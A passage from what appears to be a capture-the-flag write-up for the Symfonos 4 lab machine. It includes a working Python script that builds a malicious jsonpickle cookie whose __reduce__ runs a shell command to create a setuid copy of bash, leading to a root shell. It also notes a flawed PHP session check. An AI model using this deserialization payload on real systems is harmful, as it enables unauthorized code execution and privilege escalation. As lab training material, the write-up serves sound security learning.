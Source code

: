{{< image src="/img/symfonos4/symfonos4-21.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

In /opt I found the source code:

{{< image src="/img/symfonos4/symfonos4-20.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Based on the use of pickle, we need to exploit deserialization through the cookie.

I came up with the below script to generate a base64 encoded cookie which when deserialized
will create a setuid binary of bash.

```py
import jsonpickle
import base64
import os

class RCE(object):
    def __reduce__(self):
        cmd = ('cp /bin/bash /tmp/suidbash;chmod +s /tmp/suidbash')
        return os.system, (cmd,)

encoded = base64.b64encode(jsonpickle.encode(RCE()))
print(encoded)
```

{{< image src="/img/symfonos4/symfonos4-22.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Setting the cookie and sending the request using burpsuite:

{{< image src="/img/symfonos4/symfonos4-23.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

We get suidbash

{{< image src="/img/symfonos4/symfonos4-24.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

And we finally get a root shell:

{{< image src="/img/symfonos4/symfonos4-25.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Extras
 
## Checking the redirect on accessing the sea.php. 

The code on sea.php only checks if the session isset but not what value it is set to. From atlantis.php when you send wrong creds,
the `$_SESSION['logged_in']` is set to false. 

{{< image src="/img/symfonos4/symfonos4-27.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}
